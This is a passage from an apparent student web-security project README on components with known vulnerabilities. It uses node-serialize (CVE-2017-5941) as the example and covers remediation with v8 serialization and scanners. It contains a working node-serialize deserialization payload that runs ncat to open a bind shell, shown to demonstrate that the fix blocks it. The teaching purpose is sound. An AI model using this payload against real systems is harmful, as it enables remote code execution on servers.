  |WhiteSource|**Components with known vulnerabilities** contain vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers.  From the moment of publication, a vulnerability can be exploited by hacker who find the documentation.|
  
  As developers, we often solely focus on functionality of the software we are writing, very rarely do we think about security.  We'll often incorporate libraries that help us get our job done, but we don't do our due diligence in researching possible vulnerabilities associated with those libraries.  The security often gets overlooked.
  
  ---
### Demonstration
  Our Web Application makes use of the node package **"node-serialize"** to serialize and deserialize objects. The **"node-serialize"** library has a CVE (Common Vulnerability and Exposure) associated with it.
  
  <a href="https://www.cvedetails.com/cve/CVE-2017-5941/">CVE-2017-5941</a> contains a description and links to proof of concept exploit code for the node-serialize library.
  
  For an in-depth demonstration on how to exploit a component with a known vulnerability, please refer to our Insecure Deserialization section, where you'll be taken through a step-by-step guide on how to exploit the **"node-serialize"** library.
  
  ---
### Remediation
  A mitigation technique to discover vulnerabilities against our web application is to manually check the libraries and version against exploit databases, CVEs, etc.  This is how we discovered the vulnerability with **node serialize v.0.0.4**, however, there are more efficient methods to do so.  As developers we can employ automated scanners, such as <a href="https://www.tenable.com">Tenable's Nessus</a> or <a href="https://www.openvas.org">Openvas</a>.
  
  Automated scanners enable developers to continuously monitor their web application for current and new vulnerabilities not only in our web applications, but in all software running on our Host system. Very rarely do hackers rely on one vulnerability to gain control of a system.  Systems are usually "rooted" by chaining multiple exploits together. Automated scanners are an effective way to discover vulnerabilities and address "low hanging fruit".
  
  Once a component with a known vulnerability is discovered, developers should seek to remove that component from their application, or mitigate the vulnerability.  In the Insecure Deserialization section, we mitigated the vulnerability with the use of the <code>JSON.stringify</code> function.  A more preferable solution, would be to use another library that provides the same functionality, but without the vulnerabilty.
  
  The nodejs engine <span class="bold">v8</span> provides us such a capability. It allows to serialize and deserialize objects.
  
  Our code to serialize user input is now:
  
  ```
  var v8 = require('v8')
  var obj = req.body.userInput
  var serialized = v8.serialize(obj)
  var json = JSON.stringify(serialized)
  ```
  
  Here's what you'll see if you serialize an object in our web app:
  
  ```
  {test:123}
  ```
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities1.PNG">
  
  Our code to deserialize an object is now:
  
  ```
  var obj = Buffer.from(JSON.parse(req.body.userInput).data)
  var deserialized = obj.toString('utf8')
  
  Here's what you'll see if you deserialize the corresponding serialized object:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities2.PNG">
  
  As in the Insecure Deserialization Section, attempt to start up a BIND shell on our webserver, by deserializing the following malicious input:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  We now receive a error message, instead of a BIND shell:
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities3.PNG">  
  
  ---
### Citations: Using Components with Known Vulnerabilities
  "Insecure Components". Team Treehouse.  
  https://teamtreehouse.com/library/insecure-components (accessed Feb 18, 2022).
  
  "What is using components with known vulnerabilities". GeeksForGeeks.  
  https://www.geeksforgeeks.org/what-is-components-with-known-vulnerability/ (accessed Feb 19, 2022).
  
  "You can't ignore using components with known vulnerabilities". Whitesource.  
  https://www.whitesourcesoftware.com/resources/blog/using-components-with-known-vulnerabilities/ (accessed Feb 19, 2022).
</details>

# 10. Insufficient Logging & Monitoring
<details>
  <summary>
    ⨯ [Article not available yet]
  </summary>
  
### Description
  ---
### Demonstration
  ---
### Remediation
  ---
### Citations: Insufficient Logging & Monitoring
</details>

# Citations: Primary Sources

"Website Security Research Project." EECS Project site.
https://eecs.oregonstate.edu/capstone/submission/pages/viewSingleProject.php?id=OLLHp1v4lrRuobYa (accessed Dec 2021-Jan 2022).

Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.
https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Dec 2021-Jan 2022).

# Code References

REFERENCES  
<sub>
├── body-parser		| "body-parser", http://expressjs.com/en/resources/middleware/body-parser.html  
├── crypto			| "Crypto", https://nodejs.org/api/crypto.html#cryptorandombytessize-callback  
├── expressjs		| "Hello world example", https://expressjs.com/en/starter/hello-world.html  
├── expressjs		| "cs340_sample_nodejs_app", https://github.com/knightsamar/cs340_sample_nodejs_app  
├── expressjs		| OSU CS340 INTRODUCTION TO DATABASES, https://canvas.oregonstate.edu/courses/1825733  
├── expressjs		| "Express error handling", https://expressjs.com/en/guide/error-handling.html  
├── express-session	| "express-session", http://expressjs.com/en/resources/middleware/session.html  
├── handlebars		| "Introduction", https://handlebarsjs.com/guide/  
├── handlebars		| "Express Handlebars", https://www.npmjs.com/package/express-handlebars  
├── handlebars		| "Hello Handlebars", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/hello-node/hello-handlebars.html  
├── handlebars		| "app.locals", https://expressjs.com/en/api.html#app.locals  
├── JavaScript		| "Element.classList", https://developer.mozilla.org/en-US/docs/Web/API/Element/classList  
├── JavaScript 		| "parseInt()", https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt  
├── MySQL			| "Using Node on the Engineering Servers", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/tools-and-overview/Using-Node-on-the-Engineering-Servers.html  
└── Window.prompt 	| "Window.prompt()", https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt  
</sub>
